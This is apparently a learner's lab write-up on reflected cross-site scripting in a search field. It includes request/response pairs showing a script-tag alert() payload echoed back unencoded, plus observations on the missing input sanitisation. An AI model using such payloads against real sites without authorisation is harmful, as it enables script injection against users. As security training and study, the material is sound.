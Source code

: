 # Reflected XSS into HTML context with nothing encoded

**Notes**

**My Analysis**

**Req-Res - 1**
 Request:

    search=alert%28%27hello+from+hecker%27%29

Response:

    'alert('hello from hecker')'
**Req-Res - 2**
Request 

    search=<script>alert%28%27hello+from+hecker%27%29<%2Fscript>

Response

    <h1>0 search results for '<script>alert('hello from hecker')</script>'</h1>

 **Observations**
*No input sanitization is done.*
 *Looking at the request-response 2, angle brackets are NOT HTML encoded, therefore we were able to get a popup*

*Note:*
print() can be used instead of alert()
